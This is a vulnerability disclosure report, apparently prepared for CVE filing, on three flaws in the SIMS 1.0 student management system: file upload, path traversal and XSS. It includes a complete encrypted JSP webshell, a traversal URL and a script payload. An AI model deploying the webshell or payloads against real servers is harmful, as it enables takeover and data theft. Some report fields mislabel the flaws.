










### **Unrestricted Upload of File with Dangerous Type**

#### **[Suggested description]**

Unrestricted Upload of File with Dangerous Type vulnerability exists in SIMS. This open source system is a student information management system. There is an insecure vulnerability when uploading attachments. An attacker could exploit this vulnerability to gain server privileges.
POST: http://localhost:8081/sims/uploadServlet

#### [Vulnerability Type]

Unrestricted Upload of File with Dangerous Type

#### **[Vendor of Product]**

https://github.com/rawchen/sims

#### **[Affected Product Code Base]**

1.0

#### **[Affected Component]**

Sims 1.0

OS: Windows/Linux/macOS

Browser: Chrome、Firefox、Safari

#### **[Attack vector]**

```
POST /sims/uploadServlet HTTP/1.1

Host: localhost:8081

Content-Length: 2817

Cache-Control: max-age=0

sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="102", "Microsoft Edge";v="102"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Windows"

Upgrade-Insecure-Requests: 1

Origin: http://localhost:8081

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEKdAQSnCqiCiMhL0

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.124 Safari/537.36 Edg/102.0.1245.44

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://localhost:8081/sims/fileServlet

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: JSESSIONID=16A0A80D40CD27E95082A76CD0BDE84A

Connection: close

 

------WebKitFormBoundaryEKdAQSnCqiCiMhL0

Content-Disposition: form-data; name="myfile"; filename="text.jsp"

Content-Type: application/octet-stream

 

<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}

%>

 

------WebKitFormBoundaryEKdAQSnCqiCiMhL0--
```

#### [Attack Type]

Remote

#### **[Impact Code execution]**

False

#### **[Proof of concept]**

Step1: Under the "System Management" tab, select "File Release", select the Trojan file "text.jsp", and click the "Start Upload" button.



 

Step2: The upload is successful, and the Trojan path is obtained under the "File List" selected under the "System Management" tab.



 

Step3: The path of the assembly Trojan is "http://localhost:8081/sims/upload/text.jsp", connect the Trojan through godzilla.jar, and execute the "dir" command successfully. 

 

 

 

#### [Reference(s)]

http://cwe.mitre.org/data/definitions/434.html


### **Relative Path Traversal**

#### **[Suggested description]**

Relative Path Traversal exists in sims. The front end of this open source system is an online examination system. This open source system is a student information management system. An insecurity vulnerability exists when downloading attachments. Attackers can exploit this vulnerability to obtain sensitive server information, such as "/etc/passwd", "backup files", etc.
GET: http://localhost:8081/sims/downloadServlet

#### **[Vulnerability Type]**

Relative Path Traversal

#### **[Vendor of Product]**

https://github.com/rawchen/sims

#### **[Affected Product Code Base]**

1.0

#### **[Affected Component]**

Sims 1.0

OS: Windows/Linux/macOS

Browser: Chrome、Firefox、Safari

#### **[Attack vector]**

```
http://localhost:8081/sims/downloadServlet?filename=../index.jsp
```

#### [Attack Type]

Remote

#### **[Impact Code execution]**

False

#### **[Proof of concept]**

Step1: Under the "System Management" tab, select "File Release", select any file, and click the "Start Upload" button.

 

Step2: The upload is successful, and under the "System Management" tab, select "File List" and click the "Download" button to obtain the download interface.


 

Step3: Refactor the download interface parameters to implement directory spanning and arbitrary file download.





 

#### [Reference(s)]

http://cwe.mitre.org/data/definitions/23.html


### **Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')**

#### **[Suggested description]**

This open source system is a student information management system. There was an insecurity vulnerability in the announcement. Attackers can use this vulnerability to implement cross-site scripting attacks on website visitors, such as "cookie theft" and "browser escape".
POST: http://localhost:8081/sims/addNotifyServlet

#### [Vulnerability Type]

Relative Path Traversal

#### **[Vendor of Product]**

https://github.com/rawchen/sims

#### **[Affected Product Code Base]**

1.0

#### **[Affected Component]**

Sims 1.0

OS: Windows/Linux/macOS

Browser: Chrome、Firefox、Safari

#### **[Attack vector]**

```
POST /sims/addNotifyServlet HTTP/1.1

Host: localhost:8081

Content-Length: 61

Cache-Control: max-age=0

sec-ch-ua: "-Not.A/Brand";v="8", "Chromium";v="102"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Windows"

Upgrade-Insecure-Requests: 1

Origin: http://localhost:8081

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://localhost:8081/sims/notifyServlet

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Cookie: JSESSIONID=77DABFA8A6AB24922A384BFF7C7B9517

Connection: close

 

notifyInfo=%3Cscript%3Ealert%28%22123456%22%29%3C%2Fscript%3E
```


#### **[Attack Type]**** **Remote

#### **[Impact Code execution]**

False

#### **[Proof of concept]**

Step1: Select "Announcement List" under the "System Management" tab, fill in the constructed payload into the input box, and publish it.

 

 

Step2: When accessing the bulletin, the vulnerability is triggered

 

#### [Reference(s)]

http://cwe.mitre.org/data/definitions/79.html


 

 